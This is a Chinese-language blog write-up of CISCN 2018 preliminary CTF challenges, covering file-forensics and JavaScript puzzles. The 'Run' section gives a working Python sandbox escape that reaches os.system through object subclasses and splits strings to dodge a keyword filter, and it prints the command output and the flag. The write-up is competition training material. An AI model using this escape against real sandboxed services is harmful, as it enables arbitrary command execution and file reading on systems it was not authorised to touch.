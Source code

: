 ```yaml
---
layout: post
title: CISCN 2018 初赛 Write-up
date: 2018-05-28 15:25:24.000000000 +08:00
categories:
  - writeup
tags: 
  - ciscn
---
```


多年不更新，趁有时间整理一下最近比赛的writeup.

## Web

### Easyweb

。。。找了半天的注入点发现是空密码我会告诉你？

### Picture

下载到的 PNG（实际是 JPG）尾部添加了 zlib 数据。

binwalk –e 提取之，发现是 base64 编码；解码之，获得一个文件头是“4B 50”的文件。

修改为“50 4B”，发现是压缩包，提示密码是“ZeroDivisionError: …………”
用 python 被零除的默认错误信息实验（integer division or modulo by zero）（感谢某lth大佬提供脑洞），成功解压

解压出的文件是 uuencoded，uudecode 之，获得 flag

### Flag_in_your_head 

Js 实际是 MD5 实现，但 binl 中添加了一个 ck 函数 

```javascript
function ck(s) {
    try {
        ic
    } catch (e) {
        return;
    }
    var a = [118, 104, 102, 120, 117, 108, 119, 124, 48,123,01,121];
    if (s.length == a.length) {
        for (i = 0; i < s.length; i++) {
            if (a[i] - s.charCodeAt(i) != 3)
                return ic = false;
        }
        return ic = true;
    }
    return ic = false;
} 
```

显而易见，将 A 的各元素 ASCII-3，获得 Token：*security-xbv*。传入，获得 flag.

## Misc

### Run

比较典型的 Python 沙盒逃逸。
首先先用 object 基类的__subclasses__子类内的 file 子类，可以构成文件读取：

```python
    [].__class__.__base__.__subclasses__()[40]('/home/ctf/sandbox.py')
```

虽然不能直接 getshell，注意到退出时的错误信息 leak 出文件名，可以读取到源码。

此时的直接想法是利用 warnings.catch_warnings 类 linecache 引入的 os 模块，执行系统命
令；但是 func_globals 被 ls 规则过滤，故使用如下 payload:

```python
    >>> p = ‘func_global’ + ‘s’
    >>> o = [].__class__.__base__.__subclasses__()[59].__init__.__func__.__getattribute__(p)['linecache'].__dict__.values()[12].__dict__.values()[144]
    >>> c = ‘l’ + ‘s /home/ctf/’
    >>> o(c)
    5c72a1d444cf3121a5d25f2db4147ebb
    bin
    cpython.py
    cpython.pyc
    sandbox.py
    >>> c = 'ca' + 't /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'
    >>> o(c)
    ciscn{62a20588ef9766b418537c763366ea0c}
```

## RE
### 